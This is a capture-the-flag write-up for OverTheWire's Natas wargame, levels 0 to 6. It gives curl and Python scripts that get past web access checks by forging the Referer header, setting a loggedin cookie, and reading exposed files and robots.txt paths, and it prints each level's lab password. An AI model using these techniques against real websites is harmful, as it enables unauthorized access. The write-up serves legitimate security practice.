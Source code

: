 * Natas
** Introduction
This is a writeup for the [[https://overthewire.org/wargames/][overthewire.org]] war game Natas. To start a level 
visit the URL http://natasX.natas.labs.overthewire.org, and login with 
username: natasX and the password found in the previous level, where X is the 
level number.

** Level 0
View the source page and find the password:

#+BEGIN_SRC shell
curl -u natas0:natas0 "http://natas0.natas.labs.overthewire.org/" | grep natas1
#+END_SRC

#+RESULTS:
: <!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->

** Level 1
View the source page by using a short cut key (for me <C-u>, Ctrl+u):

#+BEGIN_SRC shell
curl -u natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto  "http://natas1.natas.labs.overthewire.org/" | grep natas2
#+END_SRC

#+RESULTS:
: <!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->

** Level 2
Again view the source page. There is a line with a link to an image 

#+BEGIN_SRC 
<img src="files/pixel.png">
#+END_SRC

This links to "http://natas2.natas.labs.overthewire.org/files/pixel.png", note 
the /files/pixels.png. Which means it might be possible to explorer the files 
'files' directory. Exploring "http://natas2.natas.labs.overthewire.org/files/" 
it shows that there it another file called 'users.txt' which contains the 
password for the next level.

#+BEGIN_SRC shell
curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi "http://natas2.natas.labs.overthewire.org/files/users.txt" | grep natas3
#+END_SRC

#+RESULTS:
: natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

** Level 3
View the source and find the line

#+BEGIN_SRC 
<!-- No more information leaks!! Not even Google will find it this time... -->
#+END_SRC

which hints at the 'robots.txt' file that contains the directories webcrawlers are not supossed to visit. From the 'robots.txt' we get the directory '/s3cr3t/' which contains the 'users.txt' file with the password for natas4.

#+BEGIN_SRC shell
curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 "http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt" | grep natas4
#+END_SRC

#+RESULTS:
: natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

** Level 4
To get access to the password we need to come from the natas5 website as is 
metioned on the website when first loging in. 
#+BEGIN_SRC 
Access disallowed. You are visiting from "" while authorized users should come 
only from "http://natas5.natas.labs.overthewire.org/"
#+END_SRC
It is possible to simulate this by setting the referer in the header of the get
request to the natas5 website.

First define a function that can find the password in the raw html text:

#+NAME: 373e98c9-ce75-4f43-921a-289dfacae023
#+BEGIN_SRC ein-python :session :async :results output 

def find_pswd(text):
    # find the line with the password in the html text
    lines = text.split('\n')
    bools = list(map(lambda x : "password" in x, lines))
    for (b,line) in zip(bools,lines):
        if b:
            return line

#+END_SRC

#+RESULTS: 373e98c9-ce75-4f43-921a-289dfacae023

Now the code that change the referer to natas5:

#+NAME: c24a72b1-d2b5-4377-8762-815c67a7d6cd
#+BEGIN_SRC ein-python :session :async :results output 
# The code is written in python
import requests
from requests.auth import HTTPBasicAuth

user = "natas4"
pswd = "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ"
url = "http://natas4.natas.labs.overthewire.org/"
headers = {'referer': 'http://natas5.natas.labs.overthewire.org/'}

# get request with the referer set to natas5
r = requests.get(url, headers=headers, auth=HTTPBasicAuth(user,pswd))

print(find_pswd(r.text))
#+END_SRC

#+RESULTS: c24a72b1-d2b5-4377-8762-815c67a7d6cd
: Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

** Level 5
After logging in the web page shows:

#+BEGIN_SRC 
Access disallowed. You are not logged in
#+END_SRC

Lets inspect the headers to see what is happening

#+NAME: 575ee3fe-cc0f-4b76-bf91-927f3fe97c0c
#+BEGIN_SRC ein-python :session :async :results output
# The code is written in python
import requests
from requests.auth import HTTPBasicAuth

user = "natas5"
pswd = "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq"
url = "http://natas5.natas.labs.overthewire.org/"

r = requests.get(url, auth=HTTPBasicAuth(user,pswd))
print(r.headers)

#+END_SRC

#+RESULTS: 575ee3fe-cc0f-4b76-bf91-927f3fe97c0c
: {'Date': 'Sat, 05 Mar 2022 10:28:27 GMT', 'Server': 'Apache/2.4.10 (Debian)', 'Set-Cookie': 'loggedin=0', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '367', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}

The output show that the the Set-cookie loggedin=0, if that is changed to 
loggedin=1 then that should give access to the password.

#+NAME: 35846085-d24d-4f0a-beb1-6538bb4b9471
#+BEGIN_SRC ein-python :session :async :results output

cookies = {'loggedin': '1'}

# get request with the cookie set loggedin=1
r = requests.get(url, cookies=cookies, auth=HTTPBasicAuth(user,pswd))

# find the line with the password in it
print(find_pswd(r.text))

#+END_SRC

#+RESULTS: 35846085-d24d-4f0a-beb1-6538bb4b9471
: Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>

** Level 6
After logging in we are prompted to input a secret. The source contains the line:
#+BEGIN_SRC 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
#+END_SRC
Then going to the url view-source:http://natas6.natas.labs.overthewire.org/index-source.html contains:
#+BEGIN_SRC 
include "includes/secret.inc";
#+END_SRC
follow this to the url http://natas6.natas.labs.overthewire.org/includes/secret.inc, which reveals the secret: "FOEIUWGHFEEUHOFUOIU"

#+NAME: 357e147d-fa57-479d-bffb-c2131c2736b1
#+BEGIN_SRC ein-python :session :async :results output

user = "natas6"
pswd = "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1"
url = "http://natas6.natas.labs.overthewire.org/"
post_data = {"secret": "FOEIUWGHFEEUHOFUOIU", "submit": "submit"}

# get request with the referer set to natas5
r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=post_data)

print(find_pswd(r.text))

#+END_SRC

#+RESULTS: 357e147d-fa57-479d-bffb-c2131c2736b1
: Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9


